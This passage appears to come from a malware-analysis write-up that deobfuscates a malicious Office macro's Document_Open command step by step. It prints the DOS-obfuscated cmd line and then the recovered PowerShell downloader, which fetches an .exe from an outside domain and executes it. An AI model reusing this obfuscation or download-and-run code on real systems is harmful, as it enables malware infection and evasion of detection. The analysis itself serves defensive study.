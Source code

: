     >>> XmdrRVAlf = "^" + "f %R" + "=" + "=" + "^0 " + Format(Chr(0 + 1 + 2 + 5 + 91)) + "a" + "^l^l %^" + "Z^" + "Y:*^ZY^"
    >>> ZsfrSsv = "!" + "=%" + Format(Chr(0 + 0 + 0 + 1 + 33)) + "  " + ""
    >>> FScXPdzAh = XmdrRVAlf + ZsfrSsv
    >>>
    >>> # From Document_Open, string passed to Shell
    ...
    >>> print FPwimk + FScXPdzAh
    cmd /V/C"s^e^t ^K1=^ ^    ^ ^ ^        ^  }^}^{^hc^t^ac};ka^er^b;z^i^A$ metI-e^k^ovnI;)^zi^A^$^ ^,dq^f$(^e^li^F^dao^lnw^oD.c^WV^${^yrt{)t^I^w^$^ ni^ dq^f^$(hca^ero^f;^'e^xe.^'^+Kz^j^$+^'\^'+c^il^bu^p^:vn^e^$=z^i^A$^;^'^963^' = ^Kz^j^$^;)'^@'(ti^l^pS^.^'nkt.2a^gr^at^=l?php.t^o^ksnapo/TTR/moc^.r^j^5om2c^s^efd5^9t//:p^t^t^h'=tI^w$;^tn^e^ilCbe^W^.^t^eN ^tc^ej^bo^-^w^en=cWV$^ ^lleh^sr^e^w^o^p&&for /^L %R ^in (2^6^5^;-^1;^0)d^o ^se^t ^Z^Y=!^Z^Y!!^K1:~%R,1!&&i^f %R==^0 ca^l^l %^Z^Y:*^ZY^!=%"
    

#### Deobfuscating Dosfuscation

Well, that’s clearly using some
[dosfuscation](https://www.fireeye.com/blog/threat-
research/2018/03/dosfuscation-exploring-obfuscation-and-detection-
techniques.html). The first step is to remove all the `^`s:

    
    
    >>> out.replace('^','')
    'cmd /V/C"set K1=                 }}{hctac};kaerb;ziA$ metI-ekovnI;)ziA$ ,dqf$(eliFdaolnwoD.cWV${yrt{)tIw$ ni dqf$(hcaerof;\'exe.\'+Kzj$+\'\\\'+cilbup:vne$=ziA$;\'963\' = Kzj$;)\'@\'(tilpS.\'nkt.2agrat=l?php.toksnapo/TTR/moc.rj5om2csefd59t//:ptth\'=tIw$;tneilCbeW.teN
    tcejbo-wen=cWV$ llehsrewop&&for /L %R in (265;-1;0)do set
    ZY=!ZY!!K1:~%R,1!&&if %R==0 call %ZY:*ZY!=%"  '
    

The resulting command line does a few things:

  * Sets a variable K1 to a long string
  * Runs a for loop over a variable %R from 265 down to 0 subtracting 1
  * In that loop, it sets Z1 = Z1 + the Rth character in K1
  * If R is 0 it executes the string in Z1

We can do the same thing with python:

That is basically reversing the string. We can do that in python:

    
    
    >>> string = '                 }}{hctac};kaerb;ziA$ metI-ekovnI;)ziA$ ,dqf$(eliFdaolnwoD.cWV${yrt{)tIw$ ni dqf$(hcaerof;\'exe.\'+Kzj$+\'\\\'+cilbup:vne$=ziA$;\'963\' = Kzj$;)\'@\'(tilpS.\'nkt.2agrat=l?php.toksnapo/TTR/moc.rj5om2csefd59t//:ptth\'=tIw$;tneilCbeW.teN tcejbo-wen=cWV$ llehsrewop'
    
    >>> string[265:0:-1]
    "powershell $VWc=new-object Net.WebClient;$wIt='http://t95dfesc2mo5jr.com/RTT/opanskot.php?l=targa2.tkn'.Split('@');$jzK = '369';$Aiz=$env:public+'\\'+$jzK+'.exe';foreach($fqd in $wIt){try{$VWc.DownloadFile($fqd, $Aiz);Invoke-Item $Aiz;break;}catch{}}                "
    

Now we have some nice powershell, which cleaned up, looks like this:

    
    
    $VWc=new-object Net.WebClient;
    $wIt='<http://t95dfesc2mo5jr.com/RTT/opanskot.php?l=targa2.tkn'.Split('@')>;
    $jzK = '369';
    $Aiz=$env:public+'\\'+$jzK+'.exe';
    foreach($fqd in $wIt) {
      try{
        $VWc.DownloadFile($fqd, $Aiz);
        Invoke-Item $Aiz;break;
      } catch{
      }
    }
    